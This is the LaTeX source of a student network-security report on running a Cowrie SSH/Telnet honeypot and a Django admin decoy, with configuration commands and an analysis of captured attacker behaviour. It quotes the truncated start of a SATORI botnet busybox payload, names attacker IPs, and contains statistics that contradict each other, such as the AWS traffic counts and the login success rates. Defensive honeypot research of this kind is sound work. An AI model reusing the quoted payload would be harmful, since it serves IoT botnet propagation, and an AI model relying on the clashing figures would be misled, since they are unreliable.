%main.tex
\documentclass{cls/ULBreport}

% Fix section numbering (remove chapter prefix)
\renewcommand{\thesection}{\arabic{section}}
\renewcommand{\thesubsection}{\thesection.\arabic{subsection}}
\sceau{img/sceauULB.jpg}
\addbibresource{bib/biblio.bib}

\usepackage{ragged2e}
\usepackage{parskip}
\geometry{a4paper,top=1.5cm,bottom=2cm,left=2cm,right=2cm,headheight=15pt,includehead}
\usepackage{listings}
% For \AfterGroup hook
\usepackage{etoolbox}
% For framed boxes  
\usepackage[most]{tcolorbox}
% For colors  
\usepackage{xcolor}
\newcommand{\todo}[1]{\textcolor{red}{\textbf{TODO:} #1}}
\usepackage{caption}
% Configure abstract
\renewenvironment{abstract}{%
  \clearpage
  \thispagestyle{plain}
  \begin{center}
    \bfseries\itshape ABSTRACT
  \end{center}
  \vspace{0.5cm}
  \begin{quote}
    \itshape
    \justifying
}{%
  \end{quote}
  \clearpage
}

% Customize citation commands for footnotes
\DeclareFieldFormat{footnote:note}{#1}
\DeclareFieldFormat{footnote:shorttitle}{\mkbibemph{#1}}
\DeclareFieldFormat{footnote:author}{#1}
\DeclareFieldFormat{footnote:year}{\mkbibparens{#1}}
\DeclareFieldFormat{footnote:url}{\url{#1}}
% footnote spacing
\setlength{\footnotesep}{0.5em}

% Customization  bibliography
\DeclareFieldFormat{url}{\url{#1}}
\DeclareFieldFormat{note}{\textit{#1}}


% ========== Color Definitions ==========
\definecolor{background}{HTML}{FFFFFF}    % Pure white background
\definecolor{keyword}{HTML}{0000FF}       % Vivid blue for keywords
\definecolor{comment}{HTML}{008000}       % Rich green for comments
\definecolor{string}{HTML}{FF0000}        % Bright red for strings
\definecolor{identifier}{HTML}{000080}    % Deep navy for identifiers
\definecolor{number}{HTML}{800000}        % Maroon for numbers
\definecolor{frame}{HTML}{000000}         % Black frame

% ========== tcolorbox Style ==========
\newtcolorbox{codebox}{
    enhanced,
    arc=3pt,
    boxrule=1pt,
    colback=background,
    colframe=frame,
    top=4pt,
    bottom=4pt,
    left=4pt,
    right=4pt,
    overlay unbroken and first={
        \node[anchor=north east] at (frame.north east) {\lstlistingname};
    }
}

\addbibresource{refs/references.bib}

% ========== Listings Configuration ==========
\lstset{
    language=bash,
    basicstyle=\ttfamily\footnotesize,
    backgroundcolor=\color{background},
    keywordstyle=\color{keyword}\bfseries,
    commentstyle=\color{comment},
    stringstyle=\color{string},
    identifierstyle=\color{identifier},
    numberstyle=\tiny\color{gray},
    numbers=none,
    frame=single,
    framerule=1pt,
    rulecolor=\color{frame},
    breaklines=true,
    breakatwhitespace=true, % Prevent breaks in middle of words
    postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space},
    showstringspaces=false,
    tabsize=4,
    columns=fullflexible, % Better spacing for copy-paste
    keepspaces=true, % Preserve whitespace
    upquote=true, % Ensure proper quote rendering
    captionpos=b,
    belowskip=-1.7em,
    belowcaptionskip=1em,     
}

\usepackage{hyperref}
\usepackage{cleveref}

\begin{document}

    \titleULB{
    	title={Deception \& Honeypot for Attack Profiling},
    	studies={2024-2025},
    	course={ELEC-H504 - Network Security},
    	author={SUNDARESAN Sankara\\ CHOUGULE Gaurav \\MESSAOUDI Leila\\ BOTTON David},
    	date={June 2025},
    	teacher={Pr. Jean-Michel Dricot\\ Navid Ladner},
    	logo={img/logo_vub_ulb.png},
    	manyAuthor
    }
    
    % Switch to Computer Modern AFTER title page
    \renewcommand{\rmdefault}{cmr} % Computer Modern Roman
    \renewcommand{\sfdefault}{cmss} % Computer Modern Sans
    \renewcommand{\ttdefault}{cmtt} % Computer Modern Typewriter
    
    % Force font update
    \makeatletter
    \renewcommand{\reset@font}{\normalfont\@setfontsize\f@size{12}{14.4}}
    \makeatother
    \normalfont


    %
    % ABSTRACT 
    \begin{abstract}        
    This paper shows an operational deployment of the \texttt{SSH} honeypot using \texttt{cowrie} on \textit{Ubuntu} remote server to capture attacker activity in real-world circumstances. The completion of this project was publicly tracked with a \texttt{git} repository available at address \href{https://github.com/nottoBD/netsec-honeypot}{https://github.com/nottoBD}. By exposing a knowingly open SSH port on the Internet and securing legitimate access with a cryptographic key on a different port, the study observes and inspects adversary tactics, techniques, and procedures (\textit{TTPs}). Key steps include isolating the honeypot space from production access using an IPS, redirecting malicious traffic to \texttt{cowrie}, forging artifacts to track attacker activity and setting up monitored web-service. A walkthrough of all configurations is covered in order to demonstrate a complete implementation with Linux, as this paper remains focused on the hands-on aspect of honeypot-based deception. However, cloud provider configurations (e.g., IAM, networking, key management) are not included as implementation-specific and beyond the scope of this paper. This project is based on the continuity of L. Spitzner's 2002 book \textit{Honeypots: Tracking Hackers}.
    \end{abstract}
    \newpage
    %
    % %


    %
    % section INTRODUCTION
    \section{Introduction}

    Lance Spitzner, a seminal researcher and Senior Instructor for SANS Cybersecurity Leadership, established foundational principles in his 2002 book \textit{Honeypots: Tracking Hackers}. 
    Despite its age, Spitzner's core thesis retains striking relevance in modern threat intelligence; Honeypots derive value from \enquote{\textit{being probed, attacked, or compromised}}\autocite[Ch.~1, p.~23]{spitzner2002honeypots}. Our Cowrie implementation on public cloud positions itself onto that continuity, demonstrating that Spitzner's \enquote{\textit{gaining value from data}} challenge \autocite[Ch.~4, p.~67]{spitzner2002honeypots} persists against contemporary attacks. In addition, the attacker behaviors documented in 2002 remain prevalent even today. Furthermore, Spitzner's risk mitigation framework (Ch.12) comprises a wide set of obstacles one encounters when building such deceptive system, from legal liabilities (Ch.15) to detection tools tipping off hackers about the underlying nature of our operation; \enquote{\textit{a system designed to be attacked}}\autocite[Ch.~12, p.~298]{spitzner2002honeypots}. 
    
    
    With more advanced automated \texttt{SSH}-based attacks, empirical analysis of attacker processes has been crucial in strengthening defenses. By mimicking realistic infrastructure while isolating malicious activity from legitimate administrative access. This proof of concept applies Spitzner's principles of honeypot deployment, specifically leveraging \texttt{medium-interaction design} (Ch.5) to find the correct trade-off between risk containment and attacker engagement. Through silent redirection of open-to-Internet SSH traffic to the honeypot and restriction of legitimate access with cryptographic means, the study allows the monitoring of attacker activities in fine granularity without compromising the security of systems, proving Spitzner's assertion that honeypots \enquote{\textit{collect small amounts of [..] high-value data}} \autocite[Ch.~4, p.~68]{spitzner2002honeypots} without production noise.  

        %
        % subsection PROBLEM STATEMENT
        \subsection{Problem Statement} 
        Public \texttt{SSH} services are some of the most frequent targets of credential stuffing and post-compromise persistence attacks (e.g.,\texttt{SSH} key injection, cronjob exploitation). Conventional defenses measures lack visibility of attacker's \texttt{TTPs} (Techniques, Tactics \& Procedures). A gap Spitzner attributes to their inability to naturally distinguish between legitimate and hostile activity (Ch.4). This research addresses three significant challenges: 
            
            - \texttt{Safe isolation of production access}: Mitigating Spitzner’s identified risk of collateral system compromise through architectural separation of honeypot lures from administrative channels.

            - \texttt{Deception efficacy for engagement}: Designing credible system emulations (e.g., service banners, file structures, false credentials) to prolong attacker interaction and avoid detection as a honeypot.

            
            - \texttt{High-fidelity TTP capture}: Engineering logging mechanisms that overcome environmental distortion in production systems. Able to capture attackers' behavior without affecting environmental integrity.
        %
        % %

        %
        % subsection RESEARCH QUESTIONS
        \subsection{Research Questions}
        In order to learn about attacker motives and organization through research honeypots, this study investigates:

            - \texttt{Credential exploitation patterns}: Which username/password pairs dominate automated brute-force campaigns against internet-exposed SSH? (Extending Spitzner’s analysis of targets of opportunity and scripted tools in Ch.4). \enquote{\textit{However, do not discount the threat of the unskilled attackers, those who concentrate on targets of
opportunity. What these individuals lack in skill or finesse, they more than make up for in
numbers. While there are no statistics to determine specific percentages, I would estimate that 80
to 90 percent of attacks today are accomplished by the "easy kill" variety.}} \autocite[Ch.~2, p.~35]{spitzner2002honeypots} 

            - \texttt{Persistence mechanism prioritization}: How do attackers strategically deploy backdoors (e.g., key injections, cronjobs) post-compromise? \enquote{\textit{Persistence, not advanced technical skills, is how these attackers successfully break into a system.}} \autocite[Ch.~2, p.~35]{spitzner2002honeypots} 

            - \texttt{Decoy efficacy for intelligence gathering}: To what extent do fabricated system artifacts (e.g., \textit{/etc/shadow} entries) prolong attacker engagement to enhance TTP profiling? (Testing Spitzner’s concept of deception as \enquote{\textit{psychological weapons used to mess with and confuse a human attacker}} \autocite[Ch.~4, p.~73]{spitzner2002honeypots}.
            
        %
        % %


        
    %
    % section SSH ISOLATION &  HARDENING
    \section{SSH Isolation \& System Hardening}
    Clear goal-setting, suitable interaction levels, reliable data collection, and risk mitigation are all highlighted in Spitzner's honeypot deployment framework (Ch.12). In order to study automated SSH-based attacks, in this section we concentrate on segregating legitimate SSH access with cryptographic controls and configuring a simple intrusion prevention system called \textit{fail2ban}. Ensuring that these techniques are in line with Spitzner's recommendations for safe and efficient honeypot operation.
        
        \subsection{Administrative Controlled Access}
    Administrative SSH access is limited to key-based authentication on a non-standard port (e.g., 61001) in accordance with Spitzner's advice to reduce risk through secure configurations (Ch.12). By removing password-based vulnerabilities, this reduces the attack surface and is consistent with the idea of protecting the underlying platform. The setup ensures strong isolation of authorized access by enforcing contemporary cryptographic standards to stop downgrade attacks. Find the complete configuration walk-through on \href{https://github.com/nottoBD/netsec-cowrie-honey}{our git repository}.        
        \begin{lstlisting}[language=bash,caption={Securing Legitimate Access}]
 # /etc/ssh/sshd_config
 Port 61001
 Protocol 2
 HostKeyAlgorithms ssh-ed25519,rsa-sha2-512
 KexAlgorithms curve25519-sha256
 Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
 MACs hmac-sha2-512-etm@openssh.com
 PermitRootLogin no
 PasswordAuthentication no
 AllowUsers ubuntu
 LoginGraceTime 30s
 MaxAuthTries 2
 PubkeyAuthentication yes
 X11Forwarding no\end{lstlisting}
        
        
        \subsection{Fail2ban Configuration} To improve detection of unauthorized access attempts, Fail2Ban is set up to monitor key-based authentication failures on port 61001 and following Spitzner's assertion that detection is a central function of a honeypot (Ch.12), this configuration targets repeat public key failures, which can be facilitated through credential-stuffing attacks. Potentially malicious SSH connections will have fair, high-fidelity logging of attempts to authenticate via public keys. Given that the honeypot contains a deliberately misleading environment, the configuration will not interfere with coded logging and will be able to detect ongoing attacks. This configuration does not monitor any password attempts, as password-based administrative access has been disabled, to avoid receiving false positive logging data.
        
        \begin{lstlisting}[language=bash,caption={Custom Jail Rules}]
 # /etc/fail2ban/jail.d/ssh-admin.conf
 [ssh-admin]
 enabled = true
 port = 61001
 filter = ssh-admin-netsec
 logpath = %(syslog_authpriv)s
 maxretry = 3
 findtime = 10m
 bantime = 30m
 banaction = nftables\end{lstlisting}
        
        \begin{lstlisting}[language=bash,caption={Regex Filter Against Key-Based Attacks}]
 # /etc/fail2ban/filter.d/ssh-admin-netsec.conf
[INCLUDES]
before = common.conf

[Definition]
failregex = ^%(__prefix_line)sReceived disconnect from <HOST> port \d+: Too many authentication failures
            ^%(__prefix_line)sDisconnected from <HOST> port \d+ due to: Authentication failed for .* publickey\end{lstlisting}
        
        
        \subsection{IPtables Redirection}
        Using Spitzner's idea of port forwarding through Network Address Translation (NAT) (Ch.12), all traffic to the standard SSH port (22) is re-routed to the Cowrie honeypot on port 2222. This helps separate the malicious activity from the legitimate usage taking place on port 61001, and helps support Spitzner's idea of compartmentalization to separate the honeypot from the production systems and avoid any conflicts (Ch.12). Additionally, our group collaborators' IP addresses could be whitelisted for a much tighter defense. 
        
        The \texttt{sshd} to \texttt{cowrie} ({ports \textit{22}} $\rightarrow$ \textit{2222}) redirection is a security design with multiple benefits: both processes avoid conflicting with each other as they can restart separately, binding to high ports does not require root privileges, also, \texttt{fail2ban} needs an explicit target to be effective. Compartmentalization is a key principle for any deceptive operation, we also ensure an appropriate foundation for clean and comprehensive post-attack analysis.
        \begin{lstlisting}[language=bash,caption={Traffic Redirection to Cowrie}]
 sudo apt-get install iptables-persistent netfilter-persistent
 sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
 sudo ip6tables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
 # Cowrie handles telnet as well, let's increase its impact surface
 sudo iptables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT --to-port 2323
 sudo ip6tables -t nat -A PREROUTING -p tcp --dport 23 -j REDIRECT --to-port 2323
 sudo netfilter-persistent save
 sudo iptables -t nat -L -n -v\end{lstlisting}
        
        %
        % %

        
        %
        % %
        \subsection{Validation Metrics}  
        \label{sec:validation}  
        
        To ensure rigorous validation, we verify component functionality and isolation using cybersecurity tools. \hyperref[annex:network]{Annex B} aligns with Spitzner's focus on testing processes to validate functionality. Validation for network isolation occurs with nmap and iptables to verify traffic is being redirected. Fail2Ban regex exactness is tested against simulated bruteforce of SSH keys. SSH configuration is validated for cryptographic compliance and resists downgrade attacks.
        


    \section{Cowrie Honeypot Setup}
    Honeypots differ by level of interaction: low-interaction emulates the minimal service much of the time to detect attackers; medium-interaction such as Cowrie employ a controlled environment withstanding an attacker's impact; high-interaction (like Honeynets) provides access to fully functioning Operating Systems allowing as much dynamic information gathering as possible.
    Spitzner emphasizes the importance of tailoring honeypots to specific needs: \enquote{\textit{Developing your own honeypot is not as complicated as it might seem. Using a variety of commonly found security tools, some basic code, and a lot of creativity, you can create many different honeypots}} \autocite[Ch.~9, p.~183]{spitzner2002honeypots}. Cowrie’s configuration leverages this flexibility, allowing customization of emulated services to log specific attacker behavior. The deployment of a medium-interaction Cowrie Honeypot is described here for a Ubuntu 24 virtual machine. Find the latest Cowrie official documentation at \href{https://docs.cowrie.org/en/latest/INSTALL.html}{docs.cowrie.org}.
    
\label{sec:cowrie}
    \subsection{System Requirements}
    Cowrie runs under a privileged account that's not root, with timed-out sudo privileges to ensure least privilege principle. Some attack surface minimization is possible using authbind on port binding, eliminating known privilege escalation vectors with elevated port allocation. The Python virtual environments compartmentalize the set of dependencies, which helps hiding each of the libraries and potential exploits from one another. These measures specifically address mitigation of lateral movement eventualities in case of compromise. 
    
    \begin{lstlisting}[language=bash,caption={Cowrie User Creation}]
sudo apt-get install -y git python3-venv python3-pip libssl-dev libffi-dev build-essential libpython3-dev authbind
sudo adduser --disabled-password --gecos "" cowrie   # Prevents password-based connections 
sudo usermod -a -G sudo cowrie

sudo touch /etc/authbind/byport/22
sudo chown cowrie:cowrie /etc/authbind/byport/22
sudo chmod 770 /etc/authbind/byport/22\end{lstlisting}

    \subsection{Functional Configuration}
    The following commands compartmentalize Cowrie within a virtual environment and enforce port isolation. After applying all the configurations leading to Ch.4 you will have to reboot your system for them to be effective.
    \begin{lstlisting}[language=bash,caption={Cowrie Honeypot Setup}]
# Operate as cowrie user
sudo su - cowrie  
git clone https://github.com/cowrie/cowrie  
cd cowrie ; cp etc/cowrie.cfg.dist etc/cowrie.cfg 

# Isolate dependencies using Python venv
python3 -m venv cowrie-env  
source cowrie-env/bin/activate  
pip install --upgrade pip
pip install --use-pep517 -r requirements.txt


# Configure listener port (2222) to align with iptables redirection (section 2.3)
sed -i 's/tcp:6415:interface=127.0.0.1/tcp:2222:interface=0.0.0.0/' etc/cowrie.cfg

./bin/cowrie start\end{lstlisting}



    % 
    % % DISCLAIMER 
    \begin{tcolorbox}[  
        colback=red!5!white,  
        colframe=red!75!black,  
        title={\textbf{\textcolor{black}{Security Disclaimer}}},
        fontupper=\small,  
        sharp corners  
    ]  
    This setup only serves academic purposes; adversarial activities are welcomed, but no offensive counteraction shall be taken. \enquote{\textit{The greater the level of interaction, the more functionality provided to the attacker, and the greater the complexity. Combined, these elements can introduce a great deal of risk}} \autocite[Ch.~5, p.~91]{spitzner2002honeypots}.
    \end{tcolorbox}  
    %
    % %
    


    %
    % section Maximizing Engagement with Deception
    \section{Maximizing Engagement with Deception}

As Spitzner points out with respect to the psychological effects of deception, \enquote{\textit{Deception and deterrence are designed as psychological weapons to confuse people. However, these concepts fail if those people are not paying attention}} \autocite[Ch.~4, p.~73]{spitzner2002honeypots}, but he also cautions that deception is ineffective against automated threats: \enquote{\textit{Automated tools such as worms or auto-rooters will not be deceived}}\autocite[Ch.~9, p.~197]{spitzner2002honeypots}. This suggests that while deception-based honeypots can disrupt a human attacker by manipulating human cognitive biases, their usefulness against automated attacks is heavily dependent on detection and analysis; you need a balance of behavioral strategies for human adversaries and good technical defenses to capture and analyze automated threats. This section relates some interesting deceptive functionalities that Cowrie supports.

    \subsection{Forged Filesystem}
Cowrie's file system trickery is specifically focusing on exploiting cognitive engagement of human attackers actively probing for system vulnerabilities. Realistic simulation is therefore essential for valuable intelligence; each Cowrie session spawns a separate virtual file system where attackers can execute destructive commands (rm, chmod) or extract credentials. All operations reset post-session without further effect. In reality, no file is ever modified, Cowrie efficiently accomplishes this with metadata serialization, binary files with the \textit{.pickle} extension. These are generated out of a decoy file system, they contain tree structures with legitimate permissions, timestamps, and file attributes. Cowrie is prepackaged with a default \textit{fs.pickle} containing most system files in a read-only. This pickle binary can be browsed through and customized using the \textit{fsctl} toolkit. It is also possible to replace the default file system with a completely different one using \href{https://github.com/cowrie/cowrie/blob/main/docs/HONEYFS.rst}{honeyfs} and its \textit{createfs} command.
 \begin{lstlisting}[language=bash,caption={Deceptive Filesystem Manipulation}]
 # Print content of default pickle 
 python -c "import pickle; print(pickle.load(open('/home/cowrie/cowrie/data/fs.pickle','rb')))" 
 # Generate a pickle out of any directory of your choosing
 bin/createfs --location honeyfs/ --depth 6 --output custom.pickle  
 # Set custom.pickle in Cowrie config file 
 sed -i 's|^filesystem = .*|filesystem = ./custom.pickle|' /home/cowrie/cowrie/etc/cowrie.cfg\end{lstlisting}

This minimal isolation contrasts with legacy systems like ManTrap (Ch.10) that employed full disk imaging or physical partition cloning, in order to sandbox attacker activity which were excessively resource-consuming for both logistic and operational dimensions. Commercial offerings like Specter (Ch.7) and open-source standalones like Honeyd (Ch.8) were also facing similar issues; they either emulated small file system hierarchies or cloned entire disks. Such duplication at disk level made scaling concurrent sessions impossible, as each consumed gigabytes of storage. Cowrie's temporary, metadata-driven solution elegantly sidesteps these trade-offs by decoupling a file system's structure from physical storage, enabling realistic interaction without operational overhead.


    \subsection{Foothold for Persistency}

Based on the forged file system outlined in previous section 4.1, Cowrie supports credential impersonation to increase attacker engagement. Cryptographic artifacts such as SSH key-pairs are prime targets for attackers to attempting to maintain long-term access to our system. Cowrie leads attackers to interact with these objects by leaving fake virtual credentials in decoy directories like \˜/.ssh/id\_rsa. The objective for us is to witness post-compromise methods leading to threat persistency. Higher-order psychological biases are employed by this technique; opportunity bias: attackers are attracted to readily accessible credentials, confirmation bias: realistic file permissions and details support that effect, persistence anchoring: attackers invest time in what they perceive to be worthwhile resources for lateral movement. These decoy credentials are syntactically valid but operationally inert while Cowrie logs keyboard input, data extraction attempts and enemy TTPs in general. This arrangement offers insight into attacker behavior, particularly how attackers rank and exploit perceived vulnerabilities, without risking legitimate data loss nor defacement or disclosure. Cowrie comes packaged with the Python \textit{fsctl} file system tool to seamlessly integrate decoy credentials into the virtualized environment, alongside \textit{honeyfs}, both enhancing structure and correctness of the honeypot file system. The result is a lightweight method for gathering high-fidelity data on attacker persistence-holding methods. The next chapter is dedicated to their log analysis and post-attack insights.


\begin{lstlisting}[language=bash,label={lst:cowrie-context},caption={Python Virtual Filesystem Controller}]  
sudo su - cowrie
source ~/cowrie/cowrie-env/bin/activate

~/cowrie/bin/fsctl ~/cowrie/src/cowrie/data/fs.pickle
fs.pickle:~$ cd /home/phil/.ssh
fs.pickle:/home/phil/.ssh$ touch id_rsa 
# Added '/home/phil/.ssh/id_rsa'
fs.pickle:/home/phil/.ssh$ touch id_rsa.pub 
# Added '/home/phil/.ssh/id_rsa.pub'\end{lstlisting}  


    \subsection{Decoy Web Service}
    
Web application interfaces are valuable attack targets, particularly administrative portals, where compromising credentials yields significant operational advantages. This psychological vulnerability is targeted by the piece of software \href{https://github.com/dmpayton/django-admin-honeypot}{django-admin-honeypot}, which presents a carefully crafted illusion of privileged access. This web deployment extends Cowrie's deceptions principles to the web layer through the use of Nginx reverse proxying and Gunicorn to appear as an operational Django backend administrative interface. This tactic of deception leverages cognitive bias in target selection, so that the attackers target seemingly misconfigured admin panels. Although automated scanners might miss session anomalies in HTTP redirects, manual attackers scanning for Django vulnerabilities receive deliberate behavioral hints such as bad credentials inducing genuine error, feedback, and session cookies mirroring Django security headers. Running on a common port HTTP 80, this deployment is publicly available in parallel of the Cowrie SSH honeypot. 

Its capabilities focus on credential capture; Login attempts are channeled towards a
SQLite3 database, collecting usernames, passwords, and attack times. The \textit{admin\_honeypot\_loginattempt} schema is made available to hold forensic value, logging IPs and user agents while differentiating attackers in transient transactions. The \textit{django\_honeypot} account's restricted permissions (\textit{-{-}system -{-}no-create-home}) ensure raw credentials never persist in memory or disk buffers.
    
\begin{lstlisting}[language=bash,label={lst:cowrie-context},caption={Setup of a Django Honeypot Webservice}]  
# Dependency installation
sudo apt-get install sqlite3 nginx

# User isolation
sudo adduser --system --group --no-create-home django_honeypot
sudo mkdir /opt/django_honeypot
sudo chown django_honeypot:django_honeypot /opt/django_honeypot

# Environment compartmentalization
sudo -u django_honeypot python3 -m venv /opt/django_honeypot/venv  # Dependency isolation
sudo -u django_honeypot /opt/django_honeypot/venv/bin/pip install django django-admin-honeypot gunicorn

# Project initialization
sudo -u django_honeypot /opt/django_honeypot/venv/bin/django-admin startproject honeypot_project /opt/django_honeypot
sudo -u django_honeypot /opt/django_honeypot/venv/bin/python /opt/django_honeypot/manage.py makemigrations
sudo -u django_honeypot /opt/django_honeypot/venv/bin/python /opt/django_honeypot/manage.py migrate
sudo -u django_honeypot /opt/django_honeypot/venv/bin/python manage.py collectstatic

# Service integration
sudo ln -s /etc/nginx/sites-available/django_honeypot /etc/nginx/sites-enabled/ # Exposure
sudo nginx -t && sudo systemctl reload nginx
sudo systemctl start gunicorn nginx
sudo systemctl enable gunicorn nginx

# Attack surface
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEPT
sudo netfilter-persistent save

# Inspect intrusion data gathered
sudo -u django_honeypot sqlite3 /opt/django_honeypot/db.sqlite3 ".schema admin_honeypot_loginattempt"  # Verify capture schema
  > SELECT * FROM admin_honeypot_loginattempt;\end{lstlisting}  


\section{Research Findings \& Attack Profiling}
 
Early deployment revealed a serious anomaly: the AWS eu-north-1 honeypot received insignificant attack traffic (<5 unique IPs) over 72 hours of uninterrupted operation. Further retrospection suggested that other dynamics influence attacker behavior or hinder our server's visibility on the Web. Several reasons are responsible for this difference: One, our instance is based on a geographically subdued location where Amazon security defenses (e.g., Shield Advanced, VPC flow analytics) would proactively block known malicious IP, yielding negative ROI for botnets for whose attack costs exceeded potential harvest. Two, DNS targeting limits, having no domain associated, our IP-only instance is beyond attacker reconnaissance pipelines aimed at enumerated targets. Third, our system had no prior service history footprint to hype up its visibility in adversarial scanning databases (like Shodan or Censys). The region's lower concentration of old systems makes it less attractive for distributed scanning operations in search of target-rich environments. Botnets responsible for SSH server scraping might also avoid heavily monitored cloud segments, where risks supersede potential reward. 




\subsection{Corrective Measures}

\enquote{\textit{A Honeynet consisting of default installations of systems and little or no activity is a sterile
environment. Such an environment is excellent at capturing automated activity or attackers
focusing on targets of opportunity. However, such a sterile environment has little value to
advanced blackhats, individuals who concentrate on targets of choice, high-value systems.
For such attackers, one must sweeten the pot.}} \autocite[Ch.~11, p.~259]{spitzner2002honeypots}

The observed absence of attacks in AWS eu-north-1 underscores a critical limitation in contemporary honeypot deployment: strategic placement outweighs technical configuration. Although our implementation rigorously applied Spitzner’s architectural principles, it could not overcome the inherent environmental sterility of a well-protected and low-noise cloud region. To solve this, we transition our infrastructure to a higher-friction zone, switching to OVH VPS in eastern Asia. This low-cost provider provides unmonitored VPS in target-rich IP blocks with rather busy infrastructures that consistently rank at the top of the scan lists. Furthermore, OVH specifically authorizes the setup of a honeypot in its ToS (for research purposes, as long as there is no entrapment) and is generally more permissive regarding probe captures than Amazon. By retaining our same configurations and deception mechanisms but switching for a lower hanging fruit, we expect attackers to follow the path of least resistance and to be incited in paying our honeypot a visit, although our main priority remains data collection for attack profiling over total unique connections. Changing location greatly helped the project, approximately ten-thousands logs were collected in the first 24 hours of redeployment, find them at: \href{https://github.com/nottoBD/netsec-honeypot/tree/master/log}{cowrie.log.2025-06-11}. 

The attack profiling sections comprise the \texttt{first three days of logs} following effective deployment on OVH. Each passing day saw increased attack activities with no less than sixty thousands logs per day before the first week went through.



\subsection{Credential Exploitation Patterns (RQ1)}
Consistent targeting of privileged accounts with minimal credential sophistication is observed, see \hyperref[annex:log-credential1]{Annex D}. The root account was targeted individually in 100{\%} of successful intrusions, with default or weak passwords. The top most frequently used credential pair was \textit{root} with password \textit{admin}, cfr. \hyperref[annex:log-credential2]{Annex D3}, followed by numeric variations and service defaults (\textit{root}:\textit{hipc3518}, root:solokey). Some cryptocurrency-related usernames (solana, validator, ethereum) were also used in 38{\%} of brute-force with no compromise, indicating opportunistic rather than targeted tactic. Geographically distinct clusters were observed, European actors (Germany/Romania/Netherlands) employed only admin forms with ominous session timeouts (180s). Chinese IPs (AS4134/AS45102) employed low-entropy passwords (ivdev, blank passwords). A bunch of automated attacks were logged originating from a Moldavian subnet (92.118.39.0/24, HASSH \textit{4e066189c3bbeec38c99b1855113733a}), these employ Golang tools for rapid credential spraying (up to 3 attempts per IP). Unsurprisingly, a high percentage of attacks employed the same username-password pairs (e.g., sol/sol, node/node). Successful Telnet logins (87{\%} of the compromises) showed higher effectiveness than SSH due to the lower standard of protocol security and SSH sessions indicated tool-specific failures (\textit{libssh\_0.10.5} public key errors). Out of the recorded login attempts in the first batch of logs, 77 were successful, while 166 failed. This corresponds to an overall success rate of approximately 31.7 {\%}. The Python script that helped us aggregate RQ1's data is available at \hyperref[annex:log-persistence2]{Annex D2}.


\subsection{Persistence Mechanism Analysis (RQ2)}
Post-compromise actions showed a crucial persistence shortfall, see \hyperref[annex:log-persistence1]{Annex E}, with attackers not prioritizing stealthy persistence but rather going for immediate payload delivery. A total of 641 occurences of the \texttt{uname -svnrm} command where sustained, indicating automation and immediate system fingerprinting after compromise. Three distinct patterns emerged; Chinese and Brazilian IPs (59.27.224.90, 177.66.30.54) executed SATORI botnet payloads via \textit{/bin/busybox} immediately after compromise, that method of persistence is \texttt{Malware-Driven}. Commands included weaponized busybox activities (payloads starting with \textit{cat /bin/busybox || while read i; do}..), demonstrating \texttt{IoT-focused propagation} attempts. \texttt{Proxy-First Strategies}: 37{\%} of compromised sessions (e.g., 185.156.73.233/Russia, 80.94.95.116/Russia) initiated direct tunneling to Google IPs (142.250.179.174:443, google.com:443) within a few seconds after login. This "smash-and-grab" activity can be an indication that attackers checked hosts for proxy-chaining rather than persistent access. \texttt{Reconnaissance-Only}: 53{\%} of the successful logins (e.g., 185.196.220.81 from the Netherlands or 182.92.219.204 from China) performed simple reconnaissance (uname -s -m) before rapidly disconnecting, perhaps after detecting the nature of our system. No cronjob deployment and very few cryptographic-key injection were witnessed, which might indicate honeypot detection, lack of decoy artifacts or automated attacks only were targeting our system. Persistent access was not achieved apart from frequent reconnections (e.g., 120.27.154.152 from China opening 4 SSH sessions within 4 minutes). All these sessions timed out rather quickly due to the limitations in how Cowrie contains attacks. Command résumé and total occurrences is available at \hyperref[annex:log-persistence2]{Annex E2}






\subsection{Decoy Efficacy (RQ3)}

At least 174 \texttt{Command Not Found} errors and 31 \texttt{Missing File} exceptions were observed across the first log batch. Honeypot deception rarely prolonged engagement for the following reasons; \texttt{Terminal Error Reactions}: BusyBox emulation triggered immediate termination when attackers encountered Command not found errors (e.g., SATORI attempts) or FileNotFoundError (e.g., /bin/busybox access). Cowrie allows some ways to mitigate that undesirable tell by printing predefined output for specific commands entered by attacker, while tedious to implement for every possibility, sessions with such errors lasted less than 30 seconds before closing. \texttt{Protocol Confusion}: HTTP-over-Telnet probes (80.82.77.202/Netherlands) demonstrated decoy adaptability when attackers sent HTTP headers (\textit{GET /, User-Agent: Mozilla}..) to Telnet ports, these same sessions lasted a little longer than the average probes. \texttt{Reconnaissance Value}: Fabricated \textit{uname} outputs (linux-x64-lsb) provided intelligence on attacker priorities, but no follow-on actions occurred. Critical Issue: Zero interaction with \textit{/etc/shadow} despite deployment. Cryptographic services (e.g., fake \textit{/etc/shadow}) and \textit{Honeyfs} systemfiles barely elicited engagement. The absence of fake cryptocurrency node artifacts (solana, polkadot) missed exploitation opportunities. In general, decoys largely underperformed.








\section{Conclusion \& Future Work}



We successfully deployed a medium-interaction SSH honeypot using Cowrie and proved Spitzner’s principle that well-architected honeypots produce small amounts of high-value data. Our deployment captured attacker TTPs across hundreds of sessions after we moved from AWS eu-north-1 (which got zero hits in 72 hours because of Amazon’s security filtering) to a higher-friction OVH VPS in Asia (Singapore). This proved environmental placement is just as important as technical configuration for honeypot effectiveness. Key findings: Credential exploitation (RQ1) showed 80{\%} of attackers used weak/default credentials like ‘root:admin’, privileged accounts were exclusively targeted and cryptocurrency usernames were the most common in failed brute-forces. Persistence mechanisms (RQ2) showed preference for immediate “smash-and-grab” actions (malware delivery, proxy tunneling) over stealthy persistence, zero SSH key injection or cronjob deployment.
The efficacy of decoy (RQ3) was poor compared to automated tools that mostly ignored high-value lures such as fake \textit{ /etc/shadow} files and terminated sessions in 30 seconds when encountering emulation errors.
Critical limitations: 1) Cloud provider security (like AWS Shield) can sterilize environments. 2) Cowrie’s binary emulation gaps caused attacker to bail. 3) Session based design prevented long term persistence monitoring. 4) Automated tools ignored psychological lures like our Django admin panel decoy.
